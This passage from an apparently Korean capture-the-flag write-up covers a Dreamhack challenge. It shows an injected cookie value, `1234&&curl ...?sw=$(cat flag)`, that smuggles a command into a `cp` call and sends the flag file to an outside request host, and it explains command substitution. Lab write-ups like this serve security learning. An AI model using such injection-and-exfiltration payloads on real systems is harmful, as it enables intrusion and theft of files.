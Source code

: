 ![snm figure4](/assets/img/dreamhack/2025-08-18-16-19-16.png)

링크를 생성한 뒤, `curl` 명령과 `GET` 방식으로 요청 결과를 받아볼 생각이다.

<br>

바꾼 쿠키 값 : `1234&&curl https://rmrrakl.request.dreamhack.games/?sw=$(cat flag)`

위와 같이 쿠키 값을 수정하게 되면, 

`cp ./tmp/notes.tmp /tmp/{timestamp}`

해당 명령에 

`cp ./tmp/notes.tmp /tmp/1234&&curl https://rmrrakl.request.dreamhack.games/?sw=$(cat flag)`

다음과 같이 입력이 들어갈 것이다. 동작은

./tmp/notes.tmp 를 복사하여 /temp/1234 에 복사에 성공하면,  
curl 명령이 실행되 `https://rmrrakl.request.dreamhack.games/?sw=$(cat flag)` 해당 요청을 보내게 된다.

그런데 요청을 보내기 전에 `cat flag`가 먼저 수행이 되는데,  
바로 $(...) 형식, **커맨드 서브스티튜션(Command Substitution)** 문법 때문이다.

<br>

### Command Substitution

Bash/Zsh 등 POSIX 셸의 경우 프로그램을 실행하기 전에 다음 순서로 확장하게 된다.

1. 변수 / 산술 / 커맨드를 치환함 (이때 $(cat flag)가 실행됨.)
2. 단어 분리, 글로빙 ...
3. 최종 결과를 `curl`에 넘김

<br>

그래서 `cat flag`를 통해 flag를 읽고, 생성한 링크에 `GET` 방식으로 `curl` 명령 수행.

그렇게 데이터를 보내주게 되니, 확인해보면

![snm figure5](/assets/img/dreamhack/2025-08-18-16-25-12.png)

다음과 같이, 플래그를 얻을 수 있다.

<br>

플래그 인증은 포멧에 맞춰 `DH` 다음에 `{` 하나, 문자열 끝에 `}`를 추가해서 인증해주면 된다.
